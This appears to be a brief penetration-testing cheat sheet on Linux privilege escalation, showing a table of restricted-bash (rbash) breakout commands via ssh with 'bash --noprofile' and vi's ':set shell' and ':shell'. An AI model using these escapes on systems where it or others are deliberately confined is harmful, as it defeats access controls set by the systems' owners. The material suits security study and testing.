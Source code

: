 # Linux PrivEsc CheatSheet
[Home](../index.md) | [CheatSheets](../cheatsheets.md) | [About](../about.md)

## Restricted Bash Shell Breakout:

| Command                                   | Purpose                                                                                                         |
| ----------------------------------------- | :--------------------------------------------------------------------------------------------------------------:|
| $SHELL                                    | Determine if you're in a restricted bash environment (/bin/rbash)                                               |
| ssh USER@IP -t "bash --noprofile"         | Can be used to breakout of rbash using SSH if we have a known username and password                             |
| vi
  :set shell=/bin/bash                        Use vi to breakout of the rbash environment, setting the shell to /bin/bash
  :shell
|                                           |                                                                                                                 |
